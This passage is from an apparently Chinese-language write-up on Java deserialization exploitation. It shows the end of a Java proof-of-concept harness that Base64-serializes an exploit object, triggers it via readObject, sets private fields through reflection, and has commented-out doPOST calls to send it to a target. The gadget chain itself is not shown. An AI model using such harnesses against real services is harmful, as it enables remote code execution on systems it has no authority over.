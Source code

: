 ```bash
        deserial(serial(exp));
        //doPOST(exp.toString().getBytes());
        //byte[] byt=new byte[fileInputStream.available()];
        //fileInputStream.read(byt);
        //doPOST(byt);
    }

    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        //Field writeReplaceMethod = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");
        //writeReplaceMethod.setAccessible(true);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
        System.out.println(s.length());
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```

还是一样的路径 这次是跟进到了

[![](assets/1701606625-e93f954ed98959e2c9368d3793682661.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153805-bf804bfa-82c0-1.png)
